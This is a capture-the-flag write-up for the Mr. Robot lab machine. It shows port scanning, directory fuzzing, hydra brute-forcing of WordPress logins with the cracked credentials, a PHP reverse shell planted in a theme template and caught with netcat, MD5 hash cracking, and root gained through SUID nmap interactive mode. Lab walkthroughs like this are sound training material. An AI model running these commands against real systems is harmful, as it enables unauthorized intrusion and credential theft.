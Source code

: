# Mr.robot
# Flag 1

In this machine we need to get 3 keys so let's start by port scanning

```shell
[dasor@archlinux ~/htb/mrrobot]$nmap -p- -sS --min-rate 9000 -vvv -n -Pn -oA allports 192.168.1.35
PORT    STATE  SERVICE REASON
22/tcp  closed ssh     reset ttl 64
80/tcp  open   http    syn-ack ttl 64
443/tcp open   https   syn-ack ttl 64
```

So a website as usual in this types of CTF's. The main page is a very cool console but that is meaningless in terms of getting the keys. Next thing fuzzing which reported a lot of subdomains here is all I found

  Command line : `ffuf -w /home/dasor/wordlist/directory-list-2.3-big.txt -u https://192.168.1.35/FUZZ -v -t 200 -of md -o ffuf`
  Time: 2022-08-14T23:04:22&#43;02:00

  | FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | blog | https://192.168.1.35/blog | https://192.168.1.35/blog/ | 18 | 301 | 234 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | images | https://192.168.1.35/images | https://192.168.1.35/images/ | 2 | 301 | 236 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | sitemap | https://192.168.1.35/sitemap |  | 29 | 200 | 0 | 1 | 1 | application/xml |  |
  | video | https://192.168.1.35/video | https://192.168.1.35/video/ | 119 | 301 | 235 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | rss | https://192.168.1.35/rss | https://192.168.1.35/feed/ | 23 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | wp-content | https://192.168.1.35/wp-content | https://192.168.1.35/wp-content/ | 227 | 301 | 240 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | admin | https://192.168.1.35/admin | https://192.168.1.35/admin/ | 245 | 301 | 235 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | 0 | https://192.168.1.35/0 | https://192.168.1.35/0/ | 110 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | feed | https://192.168.1.35/feed | https://192.168.1.35/feed/ | 112 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | login | https://192.168.1.35/login | https://192.168.1.35/wp-login.php | 39 | 302 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | atom | https://192.168.1.35/atom | https://192.168.1.35/feed/atom/ | 154 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | audio | https://192.168.1.35/audio | https://192.168.1.35/audio/ | 317 | 301 | 235 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | intro | https://192.168.1.35/intro |  | 334 | 200 | 516314 | 2076 | 2028 | video/webm |  |
  | image | https://192.168.1.35/image | https://192.168.1.35/image/ | 149 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | css | https://192.168.1.35/css | https://192.168.1.35/css/ | 540 | 301 | 233 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | wp-login | https://192.168.1.35/wp-login |  | 461 | 200 | 2688 | 117 | 54 | text/html; charset=UTF-8 |  |
  | license | https://192.168.1.35/license |  | 663 | 200 | 19930 | 3334 | 386 | text/plain |  |
  | rss2 | https://192.168.1.35/rss2 | https://192.168.1.35/feed/ | 534 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | wp-includes | https://192.168.1.35/wp-includes | https://192.168.1.35/wp-includes/ | 774 | 301 | 241 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | js | https://192.168.1.35/js | https://192.168.1.35/js/ | 939 | 301 | 232 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | Image | https://192.168.1.35/Image | https://192.168.1.35/Image/ | 970 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | readme | https://192.168.1.35/readme |  | 1737 | 200 | 7334 | 759 | 98 | text/html; charset=utf-8 |  |
  | robots | https://192.168.1.35/robots |  | 1739 | 200 | 41 | 2 | 4 | text/plain |  |
  | rdf | https://192.168.1.35/rdf | https://192.168.1.35/feed/rdf/ | 1594 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | page1 | https://192.168.1.35/page1 | https://192.168.1.35/ | 1608 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | dashboard | https://192.168.1.35/dashboard | https://192.168.1.35/wp-admin/ | 2879 | 302 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | %20 | https://192.168.1.35/%20 | https://192.168.1.35/ | 3814 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | wp-admin | https://192.168.1.35/wp-admin | https://192.168.1.35/wp-admin/ | 7510 | 301 | 238 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | phpmyadmin | https://192.168.1.35/phpmyadmin |  | 11152 | 403 | 94 | 14 | 1 | text/html; charset=iso-8859-1 |  |
  | 0000 | https://192.168.1.35/0000 | https://192.168.1.35/0000/ | 11099 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | xmlrpc | https://192.168.1.35/xmlrpc |  | 17491 | 405 | 42 | 6 | 1 | text/plain;charset=UTF-8 |  |
  | wp-signup | https://192.168.1.35/wp-signup | https://192.168.1.35/wp-login.php?action=register | 37900 | 302 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  |  | https://192.168.1.35/ |  | 39970 | 200 | 1077 | 189 | 31 | text/html |  |
  | IMAGE | https://192.168.1.35/IMAGE | https://192.168.1.35/IMAGE/ | 40678 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |


Anyway most of this isn't useful, the crucial facts is the robots file and the fact that the page is a wordpress site. Going to the robots file shows us two files a dictionary and the first key. The dictionary seems to be huge but many things are repeated a lot of times

# Flag 2

```shell
[dasor@archlinux ~/htb/mrrobot]$ wc -l fsocity.dic
858160 fsocity.dic
[dasor@archlinux ~/htb/mrrobot]$ sort fsocity.dic | uniq | wc -l
11451
```

Only 11451 lines, not that huge now. Next since we have a dictionary I tried to enumerate users with hydra and then cracks it's password

```shell
hydra -vV -L dictionary -p whatever 192.168.1.35 http-post-form -f '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
...
[80][http-post-form] host: 192.168.1.35   login: elliot   password: whatever
[STATUS] attack finished for 192.168.1.35 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
...( Now the password)
hydra -vV -l elliot -P dictionary 192.168.1.35 http-post-form -f '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered'
...
[80][http-post-form] host: 192.168.1.35   login: elliot   password: ER28-0652
[STATUS] attack finished for 192.168.1.35 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Now let's login. Once in I tried many things like XSS or login as mich05654 (the other user that appears in the page) but meaningful happened. However my old friend [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#panel-rce)
had the solution. As admin you can change the theme of the webpage and put a reverse shell in for example the 404 template. The reverse shell can be found in pentestmokey [here](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz). To start the reverse shell you just need to listen and go to a not existing page as always also let's improve the tty when we get the reverse shell.

```shell
[dasor@archlinux ~]$ nc -lvp 7777
Connection from 192.168.1.35:57792
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:13:45 up  1:44,  0 users,  load average: 0.00, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo; fg
[1]  + continued  nc -lvp 7777

daemon@linux:/$ stty rows 30 columns 132
daemon@linux:/$
```

We are logged as daemon but for some reason we have access to the home of the user robot which contains and md5 hash and the second key

```shell
dasor@archlinux ~/htb/mrrobot]$ hashcat -m 0 hashmd5 ~/wordlist/rockyou.txt --show
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```
# Flag 3

Once the hash was cracked I logged in as robot and started searching for a priv esc vector. Although the server has ftp and mysql open internally they are inaccessible since there are no mysql/ftp binaries. So to make things easier I decided to run linpeas and the results gave me 2 95% PE vector, one the linux version and the other a nmap binary with SUID bit. I tried the nmap SUID binary and got root getting the last key.

```shell
robot@linux:~$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
```

Later I tried some suggested exploits but none worked for me so it seems this is the simplest way to get root
